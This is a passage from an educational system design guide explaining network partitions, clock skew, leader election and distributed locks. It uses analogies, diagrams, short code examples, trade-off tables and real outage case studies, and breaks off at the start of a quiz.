**🎯 Remember:** Eventual consistency buys speed and availability by allowing temporary disagreement. The hard part isn't "eventually" — it's deciding how conflicts merge (LWW, vector clocks, or CRDTs).

**🔗 See also:** [#50 CAP Theorem](#50-cap-theorem), [#53 Clock Skew](#53-clock-skew), [#44 Replication](#44-replication), [#45 Read Replicas](#45-read-replicas), [#1 DNS](#1-dns), [#39 Cache Invalidation](#39-cache-invalidation)

---


### 52. Network Partitions

> **In one line:** A network partition is when computers are all still running but can't talk to each other, so each group may wrongly think the others are dead.

**🏠 Real-life analogy:** A security team in a big building talks over walkie-talkies through a relay in the stairwell. The relay breaks. The guards on floor 1 and floor 5 are perfectly fine, but they can't hear each other. Each group thinks, "The others went silent — they must be gone, so *we* are in charge now." Now two groups are giving orders, and the orders conflict. In distributed systems, this is called **split brain**.

**❓ What problem does it solve?** Understanding partitions explains many of the scariest outages. The core issue:
- From the outside, you **cannot tell** whether a node is dead, very slow, or just unreachable. All three look like "no reply".
- If you treat "unreachable" as "dead" and promote a new leader, the old leader may still be alive and accepting writes. Now you have **two leaders**, two diverging copies of the data, and a painful manual cleanup.
- Without a partition plan, a 30-second network blip can turn into many hours of data repair.

**⚙️ How it works:**

**Common causes:**
- A switch or router fails or reboots; a faulty network card.
- A misconfigured firewall rule, security group or routing change (one bad config push can cut a data center in half).
- A physical cable cut (construction work, undersea cables).
- **A long pause that *looks* like a partition:** a long garbage-collection pause (#62), a frozen VM, or a CPU so overloaded that heartbeats aren't sent. Others declare the node dead; then it wakes up and carries on as if nothing happened.
- **Partial/asymmetric partitions:** A can reach B, B can reach C, but A can't reach C. Or A's messages reach B but B's replies don't reach A. These are the hardest to debug.

**How systems detect and survive them:**
1. **Heartbeats + timeouts (#25):** nodes ping each other every so often. No reply within the timeout → "suspected down". Too short a timeout = false alarms and needless failovers. Too long = slow recovery.
2. **Majority quorum:** a group of nodes may act (elect a leader, accept writes) **only if it can reach a strict majority** (more than half) of the cluster. Any split can leave *at most one side* with a majority, so two leaders can't both be legitimately elected. This is why clusters use odd sizes:

| Cluster size | Majority needed | Node failures tolerated |
|---|---|---|
| 1 | 1 | 0 |
| 2 | 2 | 0 (worse than it looks!) |
| 3 | 2 | 1 |
| 4 | 3 | 1 (no better than 3) |
| 5 | 3 | 2 |
| 7 | 4 | 3 |

3. **Fencing tokens:** every new leader (or lock holder) gets a bigger number — an "epoch" or "term" (e.g., 7, then 8). Every write to storage carries that number, and storage rejects any number lower than the highest it has seen. A "zombie" old leader that wakes up with token 7 can no longer do damage (see #55).
4. **STONITH ("Shoot The Other Node In The Head"):** in classic high-availability clusters (e.g., Pacemaker), the new primary forcibly powers off the old one (via a power switch or cloud API) *before* taking over.
5. **Heal and reconcile:** when the network comes back, minority-side nodes in CP systems catch up from the leader; AP systems merge diverging data (#51).

```mermaid
flowchart LR
    subgraph SideA["Data center A"]
        AppA["App servers A"]
        OldLeader["DB leader (old)<br/>still accepting writes"]
    end
    subgraph SideB["Data center B"]
        AppB["App servers B"]
        NewLeader["DB replica promoted<br/>to NEW leader"]
    end
    AppA -->|"writes"| OldLeader
    AppB -->|"writes"| NewLeader
    OldLeader -.->|"link DOWN - no replication = SPLIT BRAIN"| NewLeader
```

```mermaid
flowchart LR
    subgraph Majority["Side 1: 3 of 5 nodes = HAS quorum"]
        N1["Node 1 (leader)"]
        N2["Node 2"]
        N3["Node 3"]
    end
    subgraph Minority["Side 2: 2 of 5 nodes = NO quorum"]
        N4["Node 4<br/>rejects writes"]
        N5["Node 5<br/>rejects writes"]
    end
    N1 --- N2
    N2 --- N3
    N4 --- N5
    N3 -.->|"partition"| N4
```

**💻 Example:** The majority rule in a few lines of Python — this is the decision every consensus node (etcd, ZooKeeper, Raft) effectively makes:

```python
CLUSTER = ["node1", "node2", "node3", "node4", "node5"]

def has_quorum(reachable_peers):
    """Count myself + the peers I can still reach. Act only with a strict majority."""
    alive = 1 + len(reachable_peers)
    return alive > len(CLUSTER) // 2          # 5 nodes -> need at least 3

def on_partition(me, reachable_peers):
    if has_quorum(reachable_peers):
        print(f"{me}: majority side - keep serving, elect a leader if needed")
    else:
        print(f"{me}: minority side - step down, reject writes, wait to rejoin")

on_partition("node1", ["node2", "node3"])     # 3 of 5 -> majority
on_partition("node4", ["node5"])              # 2 of 5 -> minority
```

You should **test** partitions, not just crashes. On a test machine you can simulate one with firewall rules (tools like Chaos Mesh, Toxiproxy and Jepsen automate this):

```bash
# Cut this node off from 10.0.0.12 (another cluster member) in both directions
sudo iptables -A INPUT  -s 10.0.0.12 -j DROP
sudo iptables -A OUTPUT -d 10.0.0.12 -j DROP
# ... watch what your cluster does: who becomes leader? are writes rejected? ...
# Heal the partition
sudo iptables -D INPUT  -s 10.0.0.12 -j DROP
sudo iptables -D OUTPUT -d 10.0.0.12 -j DROP
```

**🌍 Real-world usage:**
- **GitHub, October 21, 2018:** during routine maintenance to replace failing optical network equipment, connectivity between GitHub's US East Coast network hub and its primary US East Coast data center was lost for **43 seconds**. In that short window, their MySQL topology manager (Orchestrator) saw the East Coast primaries as unreachable and failed over, promoting database primaries in the US West Coast data center. When the network healed, the app started writing to the new West Coast primaries — but the East Coast servers held a few seconds of writes that had never been replicated west. The two sides had diverged, so GitHub couldn't simply fail back without losing data. They chose data integrity over speed, and the result was about **24 hours of degraded service** (delayed webhooks, stale data on the site) while they restored and reconciled. A 43-second partition became a day-long incident.
- **Jepsen** (by Kyle Kingsbury) tests popular databases under partitions and has found data-loss and consistency bugs in many well-known systems.
- **Chaos engineering:** Netflix popularized deliberately injecting failures; Shopify open-sourced **Toxiproxy** to simulate bad networks; **Chaos Mesh** for Kubernetes can create network partitions on purpose.
- etcd, ZooKeeper, Consul, Kafka (KRaft) and MongoDB replica sets all rely on majority quorums.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Automatic failover on timeout | You need fast recovery and have quorum + fencing | Risk of split brain or flapping if timeouts are too aggressive |
| Majority quorum (3 or 5 nodes) | Any leader election / consensus data | Minority side becomes unavailable; needs at least 3 nodes |
| Fencing tokens | Any time an old leader might wake up and write | Storage must check the token (extra work, not always possible) |
| STONITH | Classic active/passive HA clusters | Needs out-of-band power/cloud control; can kill a healthy node |
| Manual failover | Very critical data where wrong failover is worse than downtime | Slower recovery, humans must be on call |

**⚠️ Common mistakes:**
- Running a 2-node (or any even-sized) consensus cluster. Two nodes can't survive *any* failure while keeping a majority.
- Very aggressive health-check timeouts that trigger failovers during short network blips or GC pauses.
- Assuming "unreachable" means "dead" and never fencing the old leader.
- Only testing "a server crashed", never "a server is alive but cut off".
- Forgetting that the old leader may hold writes that never reached the new one (exactly GitHub's 2018 problem).

**🎯 Remember:** Unreachable is not the same as dead. Use majority quorums so only one side can act, and fencing tokens so a zombie leader can't write.

**🔗 See also:** [#50 CAP Theorem](#50-cap-theorem), [#54 Leader Election](#54-leader-election), [#55 Distributed Locks](#55-distributed-locks), [#44 Replication](#44-replication), [#25 Timeouts](#25-timeouts), [#16 Health Checks](#16-health-checks), [#62 Garbage Collection](#62-garbage-collection)

---


### 53. Clock Skew

> **In one line:** Every computer's clock is a little bit wrong in its own way, so you can't trust timestamps from different machines to tell you what really happened first.

**🏠 Real-life analogy:** Two friends agree to meet "at 3:00". One friend's watch is 2 minutes fast, the other's is 1 minute slow. Both arrive "exactly at 3:00" by their own watch — but 3 minutes apart in reality. If you asked "who arrived first?" and trusted their watches, you'd get the wrong answer. Servers have exactly this problem, thousands of times per second.

**❓ What problem does it solve?** Distributed systems use time everywhere: ordering events, last-write-wins conflict resolution (#51), log timestamps, cache TTLs, token expiry, leases and locks (#54, #55). Understanding clock skew (the difference between two machines' clocks) prevents bugs like:
- A newer write gets an *older* timestamp and is silently thrown away.
- Logs from different servers appear in an impossible order during an incident investigation.
- A login token is rejected as "issued in the future" because the server's clock is behind the issuer's.
- A lock or lease expires too early on one machine and too late on another.

**⚙️ How it works:**
1. **Clock drift:** a computer's clock is driven by a quartz crystal whose speed varies with temperature and manufacturing. Google's Spanner paper assumes a worst-case drift of 200 microseconds per second — that's about 17 seconds per day if never corrected.
2. **NTP (Network Time Protocol):** machines regularly ask time servers (e.g., `time.google.com`, `pool.ntp.org`, Amazon Time Sync Service) for the correct time and adjust. Accuracy is typically a few milliseconds on a good local network and tens of milliseconds over the internet — worse when the network is congested. NTP may **slew** (gently speed up/slow down) or **step** (jump) the clock — and a step can go *backwards*.
3. **Leap seconds:** occasionally an extra second (23:59:60) has been added to stay in sync with Earth's rotation. Software that assumes "time never repeats or goes backwards" can break. Google and AWS "smear" the leap second (spread it over many hours) to avoid the jump. In 2022, the international body that governs time standards voted to stop adding leap seconds by 2035.
4. **Wall clock vs monotonic clock:**
   - **Wall clock** = calendar time ("2026-10-27 10:00:05"). Good for showing dates to humans. Can jump forward or backward.
   - **Monotonic clock** = a counter that only ever goes up (e.g., time since boot). Meaningless as a date, but perfect for measuring durations and timeouts *on one machine*.
5. **Logical clocks (stop trusting physical time for ordering):**
   - **Lamport clock (Leslie Lamport, 1978):** each node keeps a counter. +1 on every event; attach it to every message; on receiving, set `counter = max(mine, received) + 1`. Guarantee: if A *happened before* B, then `L(A) < L(B)`. (The reverse is not guaranteed.)
   - **Vector clocks:** one counter per node. They can also tell when two events are **concurrent** (neither happened before the other) — which is how Dynamo/Riak detect conflicts (#51).
   - **Hybrid Logical Clocks (HLC, 2014):** physical time + a small logical counter. Timestamps stay close to real time but still respect cause-and-effect. Used by CockroachDB and YugabyteDB.
6. **Google Spanner's TrueTime:** Google puts GPS receivers and atomic clocks in its data centers. Instead of one time, the API `TT.now()` returns an **interval** `[earliest, latest]` that is guaranteed to contain the true time; the uncertainty is typically a few milliseconds (the 2012 paper reports roughly 1–7 ms). On commit, Spanner picks a timestamp and then **waits out the uncertainty** ("commit wait") before making the commit visible. After that wait, the timestamp is definitely in the past everywhere, so every later transaction — anywhere on Earth — gets a bigger timestamp. Better clocks = shorter waits.

```mermaid
sequenceDiagram
    participant A as Server A (clock 2s fast)
    participant DB as Database (last-write-wins)
    participant B as Server B (clock correct)
    Note over A,B: Real order - A writes first at real time 100, B writes later at real time 101
    A->>DB: SET price = 10 stamped 102
    DB-->>A: OK
    B->>DB: SET price = 12 stamped 101
    Note over DB: Keeps the HIGHEST timestamp, so price stays 10
    DB-->>B: OK (but the newer write was silently discarded)
```

```mermaid
flowchart LR
    Ready["Transaction ready<br/>to commit"] --> Pick["Pick timestamp s =<br/>TT.now().latest"]
    Pick --> Check{"Is TT.now().earliest<br/>greater than s?"}
    Check -->|"No - wait a few ms"| Check
    Check -->|"Yes"| Visible["Make commit visible<br/>s is now surely in the past everywhere"]
```

**💻 Example:** The most common clock bug in everyday code — measuring durations with the wall clock:

```python
import time

# WRONG: the wall clock can jump (NTP step, leap second, someone changes the time)
start = time.time()
do_work()
elapsed = time.time() - start        # can be NEGATIVE or huge if the clock jumped

# RIGHT: the monotonic clock only moves forward -> use it for durations & timeouts
start = time.monotonic()
do_work()
elapsed = time.monotonic() - start   # always >= 0

# Use time.time() only for "what time is it?" (log lines, created_at columns)
```

A Lamport clock — ordering events without trusting physical time at all:

```python
class LamportClock:
    def __init__(self):
        self.time = 0

    def tick(self):                  # a local event (e.g., a write)
        self.time += 1
        return self.time

    def send(self):                  # stamp an outgoing message
        return self.tick()

    def receive(self, msg_time):     # jump past anything we've heard about
        self.time = max(self.time, msg_time) + 1
        return self.time

a, b = LamportClock(), LamportClock()
t_send = a.send()                    # A sends with timestamp 1
b.tick(); b.tick()                   # B does 2 local events -> 2
t_recv = b.receive(t_send)           # max(2, 1) + 1 = 3 -> receive is ordered after send
print(t_send, t_recv)                # 1 3
```

**🌍 Real-world usage:**
- **Cloudflare, New Year 2017:** a leap second was added at midnight UTC on 1 January 2017. Cloudflare's DNS software (written in Go) subtracted two wall-clock readings to measure a duration; across the leap second, time appeared to go backwards, the result was **negative**, and that negative number was passed to a random-number function that panics on negative input. Some DNS lookups failed until it was fixed. Lesson: never measure durations with the wall clock. (Go later added monotonic readings to `time.Now()` in Go 1.9.)
- **Google and AWS** smear leap seconds across many hours so their machines never see a 61-second minute.
- **Google Spanner** uses TrueTime + commit wait for globally consistent transactions.
- **CockroachDB** uses hybrid logical clocks and requires clocks to stay within a configured maximum offset (500 ms by default); a node whose clock drifts too far shuts itself down rather than risk wrong answers.
- **Cassandra** resolves conflicts with last-write-wins on client/coordinator timestamps — so badly synced clocks there can mean lost writes.

**⚖️ Trade-offs:**

| Clock type | Good for | Not good for |
|---|---|---|
| Wall clock (`time.time()`, `Date.now()`) | Showing dates to humans, log timestamps, rough TTLs | Durations, timeouts, ordering events across machines |
| Monotonic clock (`time.monotonic()`, `performance.now()`) | Measuring durations and timeouts on one machine | Comparing between machines; showing dates |
| Lamport clock | Cheap total ordering consistent with cause and effect | Can't detect concurrency; unrelated to real time |
| Vector clock | Detecting concurrent (conflicting) updates | Grows with the number of nodes |
| Hybrid logical clock | Ordering close to real time + causality | Still needs NTP to keep skew bounded |
| TrueTime | Global strong consistency with real timestamps | Needs special hardware (GPS + atomic clocks) and commit waits |

**⚠️ Common mistakes:**
- Using `time.time()` / `Date.now()` to measure durations or implement timeouts.
- Ordering events from different machines by their wall-clock timestamps (e.g., last-write-wins across servers) and assuming it's correct.
- Not running NTP/chrony on servers, or not monitoring clock offset.
- Assuming clocks never go backwards (NTP steps, leap seconds, VM restores all prove otherwise).
- Validating token expiry (`exp`, `nbf` in JWTs) with zero tolerance — most libraries offer a small "leeway" for clock skew.

**🎯 Remember:** Physical clocks lie a little. Use monotonic clocks for durations, logical clocks (Lamport/vector/HLC) for ordering, and never rely on cross-machine timestamps for correctness unless your clock error is bounded (like Spanner's TrueTime).

**🔗 See also:** [#51 Eventual Consistency](#51-eventual-consistency), [#54 Leader Election](#54-leader-election), [#55 Distributed Locks](#55-distributed-locks), [#25 Timeouts](#25-timeouts), [#5 Latency](#5-latency)

---


### 54. Leader Election

> **In one line:** Leader election is how a group of servers agrees on exactly one "boss", and quickly picks a new one if the boss disappears.

**🏠 Real-life analogy:** In a group project, if everyone emails the professor separately, the professor gets five different versions. So the group picks one person to submit. If that person gets sick, the group must agree on a replacement — and also make sure the sick person doesn't *also* submit an old version from their bed. Picking the replacement is leader election; stopping the sick person is fencing.

**❓ What problem does it solve?** Some jobs must be done by exactly one node at a time:
- **Single writer:** one database primary accepts writes, so replicas never get conflicting writes (#44).
- **Avoid duplicate work:** a scheduled job (#35) like "send the daily invoice email" should run once, not once per server.
- **Coordination:** one node assigns shards/partitions to workers, or one Kubernetes controller reconciles the cluster.

Without election you either hard-code one "master" (a single point of failure: when it dies, nothing happens) or let every node do the job (duplicates, conflicts, double charges).

**⚙️ How it works:**

**Approach 1 — Consensus algorithms (the nodes vote among themselves).**
- **Paxos** (Leslie Lamport) — proven correct, but famously hard to understand and implement. Google's Chubby lock service is built on it.
- **Raft** (Diego Ongaro and John Ousterhout, 2014) — designed to be understandable. Used by etcd, Consul, CockroachDB, TiKV and Kafka's KRaft mode.

**How Raft elects a leader:**
1. Every node is a **Follower**, **Candidate** or **Leader**.
2. Time is split into numbered **terms** (1, 2, 3, ...). Each term has at most one leader.
3. The leader sends regular heartbeats. If a follower hears nothing for its **election timeout** (randomized, e.g., 150–300 ms, so nodes don't all wake up at once), it becomes a **Candidate**, increments the term, votes for itself, and asks everyone else for votes.
4. Each node votes for **at most one candidate per term**, and only if the candidate's log is at least as up to date as its own.
5. A candidate that gets votes from a **majority** becomes Leader. With a split vote, everyone times out and tries again in a new term.
6. Any node that sees a **higher term** immediately steps down to Follower — so an old leader returning from a partition gives up.

```mermaid
stateDiagram-v2
    [*] --> Follower
    Follower --> Candidate : election timeout, start new term and vote for self
    Candidate --> Candidate : split vote, timeout and retry with next term
    Candidate --> Leader : receives votes from a majority
    Candidate --> Follower : discovers current leader or higher term
    Leader --> Follower : discovers a higher term
```

**Approach 2 — Borrow consensus from a coordination service (what most apps should do).**
- **ZooKeeper — ephemeral sequential nodes:** each candidate creates a node like `/election/n_0000000007`. *Sequential* = ZooKeeper appends an increasing number. *Ephemeral* = it is deleted automatically if the creator's session dies. The **lowest number is the leader**. Each other candidate watches only the node *just before* its own (not the leader), so when the leader dies, only one node wakes up — avoiding a "herd" of everyone reacting at once.
- **etcd — leases:** a candidate creates a **lease** (a timer, e.g., 10 s), then writes `/election/leader = me` attached to the lease, *only if the key doesn't exist* (an atomic transaction). It keeps the lease alive with heartbeats. If it dies, the lease expires, the key disappears, and others campaign. etcd ships this as `etcdctl elect` and a client `Election` API.
- **Kubernetes Lease objects:** `kube-controller-manager` and `kube-scheduler` run several copies in a highly available control plane, but only the holder of a `Lease` object (API group `coordination.k8s.io`, in the `kube-system` namespace) actually acts. The leader keeps updating `renewTime`; if it stops for longer than `leaseDurationSeconds`, another replica takes over. Operators built with client-go use the same `leaderelection` package.

```mermaid
flowchart LR
    ZK["ZooKeeper path /election"] --- C1["n_0000000001 (Server A)<br/>LOWEST = LEADER"]
    ZK --- C2["n_0000000002 (Server B)<br/>watches n_0000000001"]
    ZK --- C3["n_0000000003 (Server C)<br/>watches n_0000000002"]
```

**Approach 3 — Bully algorithm (classic textbook, 1982).** When a node notices the leader is gone, it messages all nodes with **higher IDs**. If none answer, it declares itself leader; the highest live ID always wins ("bullies" the rest). Simple, but it trusts timeouts and can produce two leaders during a partition, so it's mostly used for teaching.

**Split brain and fencing tokens.** Even with perfect voting, there can be a moment when the *old* leader (paused or partitioned) still *thinks* it's the leader. So: use the **term/epoch number as a fencing token** on every write, and make storage reject writes carrying an older number (#52, #55).

**💻 Example:** A simple lease-based election with Redis — fine for "avoid running the job twice" (efficiency). For correctness-critical leadership, prefer etcd/ZooKeeper (consensus) plus fencing.

```python
import time, uuid, redis

r = redis.Redis()
ME = str(uuid.uuid4())                   # unique id for this process
KEY, TTL_MS = "leader:invoice-job", 10_000

# Extend the lease ONLY if we still hold it (atomic check-and-extend in Lua)
RENEW = r.register_script("""
if redis.call('GET', KEYS[1]) == ARGV[1] then
  return redis.call('PEXPIRE', KEYS[1], ARGV[2])
end
return 0
""")

while True:
    r.set(KEY, ME, nx=True, px=TTL_MS)   # try to become leader if nobody is
    if RENEW(keys=[KEY], args=[ME, TTL_MS]) == 1:
        do_one_small_step_of_leader_work()   # each step must finish well within the TTL
    time.sleep(TTL_MS / 1000 / 3)        # renew about 3 times per TTL
```

With etcd, leader election is built in (backed by Raft and leases):

```bash
etcdctl elect invoice-job server-a      # blocks until server-a is leader, then holds it
etcdctl elect --listen invoice-job      # in another terminal: watch who the leader is
```

What a Kubernetes control-plane Lease looks like (`kubectl get lease kube-controller-manager -n kube-system -o yaml`, trimmed):

```yaml
apiVersion: coordination.k8s.io/v1
kind: Lease
metadata:
  name: kube-controller-manager
  namespace: kube-system
spec:
  holderIdentity: master-1_3f9c...    # the current leader
  leaseDurationSeconds: 15            # others may take over if not renewed for 15s
  renewTime: "2026-10-27T10:00:05.000000Z"
  leaseTransitions: 3                 # how many times leadership has changed
```

**🌍 Real-world usage:**
- **Kubernetes:** controller-manager and scheduler use Lease-based leader election; etcd (Raft) underneath elects its own leader.
- **Kafka:** older versions used ZooKeeper to elect the controller; newer versions use **KRaft** (a Raft-based protocol), and Kafka 4.0 removed ZooKeeper entirely.
- **Hadoop HDFS:** NameNode high availability uses ZooKeeper for automatic failover.
- **MongoDB replica sets** elect a primary with a Raft-like protocol; **Redis Sentinel** elects a leader Sentinel to run a failover.
- **Google Chubby** (Paxos) is used inside Google for electing masters in systems like Bigtable.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| etcd / ZooKeeper / Consul | Correctness matters (DB primary, shard ownership) | Another critical cluster to run (3 or 5 nodes) |
| Kubernetes Lease | Your app already runs on Kubernetes | Tied to the K8s API server; still needs fencing for strict safety |
| Redis `SET NX PX` lease | "Run the cron job once"-style efficiency | Single Redis = single point of failure; unsafe for correctness |
| Embed Raft (library) | You're building a database or infra product | Complex; very easy to get subtly wrong |
| Bully algorithm | Learning / small trusted LANs | Unsafe under partitions; two leaders possible |

**⚠️ Common mistakes:**
- Writing your own consensus algorithm from scratch instead of using etcd, ZooKeeper or a well-tested Raft library.
- Running 2 or 4 nodes: you pay for extra machines without extra fault tolerance (#52).
- A leader doing long work without re-checking that it still holds the lease, and without fencing tokens.
- Lease TTL too short (leadership flaps during GC pauses) or too long (slow failover when the leader really dies).
- Assuming "exactly one leader at every instant". Brief overlaps can happen — make leader actions fenced or idempotent (#29).

**🎯 Remember:** Don't build consensus — borrow it (etcd, ZooKeeper, Kubernetes Lease). Majority votes plus terms ensure at most one leader is elected per term; fencing tokens stop the old leader from doing damage.

**🔗 See also:** [#52 Network Partitions](#52-network-partitions), [#55 Distributed Locks](#55-distributed-locks), [#53 Clock Skew](#53-clock-skew), [#70 Kubernetes](#70-kubernetes), [#35 Cron Jobs](#35-cron-jobs), [#44 Replication](#44-replication), [#15 Service Discovery](#15-service-discovery)

---


### 55. Distributed Locks

> **In one line:** A distributed lock is a "do not disturb" sign that every server can see, so only one of them works on a shared thing at a time.

**🏠 Real-life analogy:** An office has one key to the shared meeting room, kept at reception. Whoever has the key uses the room. But what if someone takes the key and falls asleep inside for hours? So reception says, "Keys expire after 30 minutes — after that we hand out a spare." Now imagine the sleeper wakes up after 40 minutes and walks back into the room, sure they still have it — while someone else is already using it. That's the central danger of distributed locks.

**❓ What problem does it solve?** A normal lock (a **mutex**, e.g., Python's `threading.Lock`) only works *inside one process*. With 10 servers behind a load balancer (#12), each server has its own mutex and they can't see each other's.
- Two servers both pick up "charge invoice 42" → the customer is charged twice.
- Two copies of a cron job (#35) both send the newsletter → everyone gets it twice.
- Two workers resize the same image and overwrite each other's results.

A distributed lock lives in a **shared place** (Redis, etcd, ZooKeeper, a database) that every server checks.

**⚙️ How it works:**

**The basic Redis lock:**
1. **Acquire atomically, with a unique token and an expiry:** `SET lock:invoice:42 <unique-token> NX PX 30000`
   - `NX` = only set if the key does **N**ot e**X**ist (so only one client wins).
   - `PX 30000` = auto-delete after 30,000 ms, so a crashed holder can't block everyone forever.
   - The unique token (a random UUID) proves *who* owns the lock.
2. **Do the work** — and finish well before the TTL (time-to-live).
3. **Release safely:** delete the key **only if it still holds your token**, using a tiny Lua script (Redis runs it atomically). A plain `DEL` is dangerous: if your lock already expired and someone else grabbed it, you'd delete *their* lock.

**The "process pauses past expiry" problem:** a lock with a TTL is really a **lease**. If your process pauses longer than the TTL — a garbage-collection pause (#62), a VM migration, a slow network call — the lock expires, another client acquires it, and your process wakes up *still believing it holds the lock*. Now two clients act at once. Checking "do I still hold it?" right before writing doesn't fully help: you can pause right *after* the check.

**Fencing tokens — the real fix:** the lock service hands out a number that increases with every grant (33, then 34, ...). The client sends that number with every write to the protected resource, and **the resource rejects any token lower than the highest it has already seen**. Then the woken-up zombie (token 33) is refused after the new holder (token 34) has written. This needs the storage side to cooperate. ZooKeeper (znode version / transaction id) and etcd (key revision numbers) give you suitable increasing numbers; Google's Chubby called them "sequencers".

```mermaid
sequenceDiagram
    participant C1 as Client 1
    participant L as Lock Service
    participant C2 as Client 2
    participant S as Storage
    C1->>L: acquire lock (TTL 30s)
    L-->>C1: OK, fencing token 33
    Note over C1: Long GC pause - 40 seconds
    Note over L: TTL expires, lock is free again
    C2->>L: acquire lock
    L-->>C2: OK, fencing token 34
    C2->>S: write data with token 34
    S-->>C2: OK (highest token seen is now 34)
    C1->>S: wakes up, writes data with token 33
    S--xC1: REJECTED - token 33 is older than 34
    Note over C1,S: Without fencing, this stale write would succeed and corrupt data
```

```mermaid
flowchart LR
    S1["Server 1<br/>own local mutex"] -->|"SET NX - wins"| Store[("Shared lock store<br/>Redis / etcd / ZooKeeper")]
    S2["Server 2<br/>own local mutex"] -->|"SET NX - loses, retries later"| Store
    S1 -->|"only the winner"| Job["Charge invoice 42"]
```

**Redlock and the famous debate.** **Redlock** is the Redis author's algorithm for a lock that survives a Redis node failure: use N independent Redis masters (usually 5), try to acquire the same key/token on all of them with short timeouts, and consider the lock held only if you got a **majority** (3 of 5) and the total time taken was well under the TTL.
- **Martin Kleppmann's critique ("How to do distributed locking", 2016):** Redlock's safety depends on timing assumptions — bounded network delays, bounded process pauses and bounded clock drift — that real systems break (GC pauses, clock jumps, #53). It also doesn't produce fencing tokens, so it can't stop the paused-client problem. His advice: if the lock is only for **efficiency** (avoiding duplicate work, an occasional duplicate is acceptable), a single Redis node is fine; if it's for **correctness**, use a proper consensus system such as ZooKeeper with fencing tokens.
- **antirez's response (Salvatore Sanfilippo, Redis creator, "Is Redlock safe?", 2016):** he argued that Redlock is safe under its stated assumptions, that clock problems are avoidable in practice (e.g., don't let clocks jump), and that the paused-client problem affects *any* lock with automatic expiry, not just Redlock.
- **The lesson for you:** first ask "Is this lock for efficiency or for correctness?" — that decides which tool you need.

**Other ways to lock:**
- **ZooKeeper / etcd locks:** built on consensus (#54), so they survive node failures. ZooKeeper uses ephemeral sequential nodes (lowest number holds the lock; Apache Curator's `InterProcessMutex` implements it). etcd uses leases (`etcdctl lock`, client `Mutex` API).
- **Database advisory locks:** if you already have Postgres, `pg_advisory_lock(key)` takes an application-defined lock that the database tracks. Session-level locks are released when the connection closes; `pg_advisory_xact_lock` releases at the end of the transaction. MySQL has `GET_LOCK('name', timeout)`. Watch out: PgBouncer in transaction-pooling mode doesn't support session-level advisory locks (#43).

**Avoid locks entirely when you can** — often the best distributed lock is no lock:
- **Idempotency keys (#29):** make duplicates harmless instead of preventing them.
- **Database constraints:** a `UNIQUE` index lets the database reject the second attempt.
- **Conditional / optimistic updates (#58):** `UPDATE ... WHERE version = 7` or `WHERE stock > 0` — the database checks atomically.
- **Single owner per key:** route all work for one key to one consumer (e.g., a Kafka partition, #31).
- **`SELECT ... FOR UPDATE SKIP LOCKED`** in Postgres for job queues (#59).

**💻 Example:** Acquire and safely release a Redis lock in Python:

```python
import uuid, redis

r = redis.Redis()

# Compare-and-delete: only remove the lock if it still holds MY token
RELEASE = r.register_script("""
if redis.call('GET', KEYS[1]) == ARGV[1] then
  return redis.call('DEL', KEYS[1])
else
  return 0
end
""")

def run_exclusively(name, work, ttl_ms=30_000):
    key, token = f"lock:{name}", str(uuid.uuid4())
    # Equivalent to: SET lock:<name> <token> NX PX 30000  (atomic create-if-absent + expiry)
    if not r.set(key, token, nx=True, px=ttl_ms):
        return False                         # someone else holds it: skip or retry later
    try:
        work()                               # must finish well within ttl_ms!
    finally:
        RELEASE(keys=[key], args=[token])    # never a plain DEL
    return True

run_exclusively("cache:catalog", lambda: print("refreshing a disposable cache"))
```

This lease can reduce duplicate work, but it does not make an external payment exactly once.
The worker can pause beyond the TTL and continue after another worker acquires the lock.
Use idempotency and, where required, fencing enforced by the destination for correctness-critical work.

The same thing from the command line:

```bash
redis-cli SET lock:invoice:42 "token-c1a7" NX PX 30000   # OK    -> acquired
redis-cli SET lock:invoice:42 "token-9f3b" NX PX 30000   # (nil) -> already locked
```

A Postgres advisory lock, and the "no lock needed" alternative:

```sql
-- Proceed only if this returns true; release on the same connection in cleanup.
SELECT pg_try_advisory_lock(424242);   -- true = I got it, false = someone else has it
-- ... application runs the job only after successfully acquiring the lock ...
SELECT pg_advisory_unlock(424242);

-- Often better: let a UNIQUE constraint make duplicates harmless
INSERT INTO payments (idempotency_key, order_id, amount_cents)
VALUES ('order-42-charge', 42, 1999)
ON CONFLICT (idempotency_key) DO NOTHING;   -- a second attempt is a no-op
```

**🌍 Real-world usage:**
- **Redis locks** are everywhere for "don't do this twice" jobs; libraries include Redisson (Java, which also has a "watchdog" that keeps extending a held lock) and node-redlock.
- **Apache Curator** recipes on ZooKeeper and **etcd** locks are used in infrastructure where correctness matters.
- **Google Chubby** (2006 paper) is a lock service used across Google and introduced sequencers (fencing tokens).
- **Ruby on Rails** uses a Postgres advisory lock so two deploys can't run database migrations (#48) at the same time; **Liquibase** uses a lock *table* for the same purpose.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Single Redis `SET NX PX` | Efficiency locks (avoid duplicate work) | Redis failover can lose the lock; no fencing; unsafe for correctness |
| Redlock (5 Redis nodes) | You want Redis but tolerate a node failure | Debated safety; relies on timing; still no fencing tokens |
| ZooKeeper / etcd lock | Correctness-critical mutual exclusion | Another consensus cluster to operate; more latency |
| DB advisory lock | You already have Postgres/MySQL; modest scale | Load on the primary DB; connection-pooler caveats |
| No lock (idempotency, constraints, conditional updates) | Whenever the data store can enforce the rule | Requires designing operations carefully |

**⚠️ Common mistakes:**
- Releasing with a plain `DEL`, accidentally deleting someone else's lock after yours expired.
- Using `SETNX` and then `EXPIRE` as two separate commands — a crash in between leaves a lock that never expires. Use one `SET ... NX PX`.
- No TTL at all, so a crashed holder blocks everyone forever.
- Assuming a TTL lock guarantees mutual exclusion for correctness without fencing tokens.
- Reaching for a lock when a unique constraint, an idempotency key or a conditional update would solve the problem more simply.

**🎯 Remember:** A distributed lock with a timeout is a lease, not a guarantee. For efficiency, Redis `SET NX PX` is fine; for correctness, use consensus (etcd/ZooKeeper) plus fencing tokens — or design the lock away.

**🔗 See also:** [#54 Leader Election](#54-leader-election), [#52 Network Partitions](#52-network-partitions), [#53 Clock Skew](#53-clock-skew), [#29 Idempotency](#29-idempotency), [#56 Race Conditions](#56-race-conditions), [#58 Optimistic Locking](#58-optimistic-locking), [#59 Pessimistic Locking](#59-pessimistic-locking), [#60 Deadlocks](#60-deadlocks)

---

### 🧠 Part 8 Quiz

**Q1. What does the CAP theorem actually force you to choose, and when?**
<details><summary>Show answer</summary>

